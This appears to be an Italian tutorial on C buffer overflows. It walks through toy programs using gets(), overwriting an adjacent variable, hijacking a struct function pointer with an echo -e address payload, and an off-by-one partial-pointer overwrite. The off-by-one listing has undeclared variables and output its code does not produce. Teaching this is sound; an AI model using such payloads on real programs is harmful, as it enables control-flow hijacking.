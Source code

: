 ﻿# Buffer overflow

Il buffer overflow è una tra le vulnerabilità più comuni tra i software e la principale causa è la scrittura di codice non corretta e sicura.

Il **buffer overflow** è una condizione in cui è possibile inserire più input in un buffer rispetto alla capacità allocata, andando così a sovrascrivere altre informazioni.

Questa vulnerabilità viene usata principalmente per:

- far crashare il sistema
- inserire dati che rompono l’integrità
- inserire codice per ottenere il controllo del sistema

Linguaggi come C sono ritenuti “unsafe” e lasciano al programmatore la responsabilità di implementare i dovuti controlli.

## Rompere l’integrità e crash

Consideriamo il seguente codice C

```c
#include <string.h>
#include <stdio.h>

char buffer1[8] = "one";    // buffer of size 8 initialized with “one”
int value = 5;
char buffer2[8] = "two";    // buffer of size 8 initialized with “two”
int main(int argc, char *argv[]) {
		// prints: address = value,  before user input
	 printf("[BEFORE] buffer1 @ %1$p = %1$s\n", buffer1);
	 printf("[BEFORE] value @ %1$p = 0x%2$08x\n",&value, value);
	 printf("[BEFORE] buffer2 @ %1$p = %1$s\n", buffer2);
	
	 printf("Please enter your input: ");
	 gets(buffer1);     // reads input into buffer1, whatever length!
	 printf("\n");
	  // prints: address = value,  after user input
	 printf("[AFTER] buffer1 @ %1$p = %1$s\n", buffer1);
	 printf("[AFTER] value @ %1$p = 0x%2$08x\n",&value, value);
	 printf("[AFTER] buffer2 @ %1$p = %1$s\n", buffer2);
}
```

Abbiamo quindi  l’allocazione di un buffer, una variabile e un altro buffer.

Viene preso un input utente e viene inserito nel primo buffer.

Esecuzione:

```bash
$ echo "prova" | ./prova
[BEFORE] buffer1 @ 0x7fe3b7d9a010 = one
[BEFORE] value   @ 0x7fe3b7d9a018 = 0x00000005
[BEFORE] buffer2 @ 0x7fe3b7d9a020 = two
Please enter your input:
[AFTER] buffer1 @ 0x7fe3b7d9a010 = prova
[AFTER] value   @ 0x7fe3b7d9a018 = 0x00000005
[AFTER] buffer2 @ 0x7fe3b7d9a020 = two
```

Notiamo come gli indirizzi delle variabili sono sequenziali, distanziati di 8 byte.

Se la dimensione dell’input rientra nella dimensione del buffer non ci sono problemi, ma non abbiamo controlli per forzare che ciò avvenga sempre, infatti è possibile inserire un input più grande:

```bash
$ echo "AAAAAAAA" | ./prova
[BEFORE] buffer1 @ 0x7f92ba1bc010 = one
[BEFORE] value   @ 0x7f92ba1bc018 = 0x00000005
[BEFORE] buffer2 @ 0x7f92ba1bc020 = two
Please enter your input:
[AFTER] buffer1 @ 0x7f92ba1bc010 = AAAAAAAA
[AFTER] value   @ 0x7f92ba1bc018 = 0x00000000
[AFTER] buffer2 @ 0x7f92ba1bc020 = two
```

la stringa con 8 caratteri ‘A’ va in overflow in quanto la stringa contiene anche il **carattere terminatore ‘0x00’**. Vediamo come viene sovrascritto il valore della variabile `value`.

Nota che in *little endian* i byte vengono prima scritti quelli meno significativi (quelli più a destra).

Se inseriamo 9 caratteri A, otteniamo il seguente output:

```bash
$ echo "AAAAAAAAA" | ./prova
[BEFORE] buffer1 @ 0x7f669a8de010 = one
[BEFORE] value   @ 0x7f669a8de018 = 0x00000005
[BEFORE] buffer2 @ 0x7f669a8de020 = two
Please enter your input:
[AFTER] buffer1 @ 0x7f669a8de010 = AAAAAAAAA
[AFTER] value   @ 0x7f669a8de018 = 0x00000041
[AFTER] buffer2 @ 0x7f669a8de020 = two
```

Continuando ad aumentare il numero di caratteri continuiamo a sovrascrivere le zone di memoria successive. Otteniamo quindi un **buffer overlfow**. Ciò che può limitare la dimensione del nostro input è un errore di **segmentation fault** (e quindi crash del programma), che si verificherebbe nel caso arrivassimo a sovrascrivere zone di memoria non assegnate al nostro processo.

La funzione `gets` è *unsafe* perché non limita in alcun modo la dimensione dell’input, e non dovrebbe venir mai utilizzata, inoltre durante la compilazione appare un *warning* che avverte di ciò.

## Controllare il flusso di codice

Con il buffer overflow è possibili modificare il normale flusso di codice, principalmente in due modi:

- sovrascrivendo il puntatore ad una funzione
- sovrascrivendo con nuovo codice

Ad esempio se definiamo un tipo di dato:

```c
typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;
```

contenente un buffer e puntatore ad una funzione.

In questo modo un buffer overflow può sovrascrivere il puntatore alla funzione, in modo da eseguire una funzione differente da quella attesa.

Ad esempio:

```c
typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;

void secret_function() {
	 printf("Secret function!\n");
}
void show_data(char *s) {
	 printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	 element_t e;
	 e.f = show_data; // legitimate function
	 printf("Insert data: ");
	 gets(e.data); // reads data, unsafe!
	 e.f(e.data);
}
```

L’obiettivo dell’attacco è quello di far invocare la funzione `secret_function()`:

Per semplificare l’attacco disabilitiamo l’opzione di compilazione **PIE** (*Position Independent Executable*) che rende più difficile exploitare la vulnerabilità rendendo randomizzata la posizione in memoria del programma.

`$ gcc overflow-struct.c -o overflow-struct --no-pie --static`

Adesso usando gdb, possiamo ottenere l’indirizzo della funzione `secret_function()`:

```nasm
$ gdb -q overflow-struct
...
(gdb) x/x secret_function
	0x400b4d <secret_function>: 0xe5894855
```

Adesso per riuscire a sovrascrivere il puntatore bisogna riempire il buffer fino alla sua dimensione massima con dei dati qualsiasi e poi andare in overflow inserendo l’indirizzo della `secret_function`.

Nota che gli indirizzi sono a 8 byte e sono in little endian

```bash
echo -e "AAAAAAAAAAAAAAAA\x4d\x0b\x40\x00\x00\x00\x00\x00" | ./overflow-struct
Insert data: Secret function!
```

## Off-by-one bug

Un tipico errore di programmazione può essere il seguente, in qui viene sbagliato il controllo sull’indice finale.

```c

typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;

void secret_function() {
	 printf("Secret function!\n");
}
void show_data(char *s) {
	 printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	 element_t e;
	 e.f = show_data; // legitimate function
	 printf("Insert data: ");
	 memset(e.data, 0, sizeof(e.data));
	
	 //errore: i<=sizeof(e.data)
	 for (i=0; i<=sizeof(e.data) && (c=getc(stdin))!= EOF && c != '\n'; i++) {
		 e.data[i] = c;
	 }
	 printf("show_data = %p, secret_function = %p\n",show_data,secret_function);
}
```

Con l’ultima `printf` andiamo a controllare gli indirizzi assegnati alle due funzioni: `show_data` e `secret_function`. 

eseguendo il programma più volte notiamo come gli indirizzi delle due funzioni **cambiano solo per l’ultimo byte**.

```c
$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x560bfd9287dd, secret_function = 0x560bfd9287ca
$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x56260d01f7dd, secret_function = 0x56260d01f7ca
$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x5646872967dd, secret_function = 0x5646872967ca
$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x55f42b85f7dd, secret_function = 0x55f42b85f7ca
```

Sfruttando l’errore sul controllo dell’indice del buffer possiamo modificare tale byte, che ci è sufficiente per cambiare la funzione invocata:

```c
$ echo -e "AAAAAAAAAAAAAAAA\xca" | ./overflow-struct-offbyone
Insert data: Secret function!
show_data = 0x560975daa7dd, secret_function = 0x560975daa7ca
```
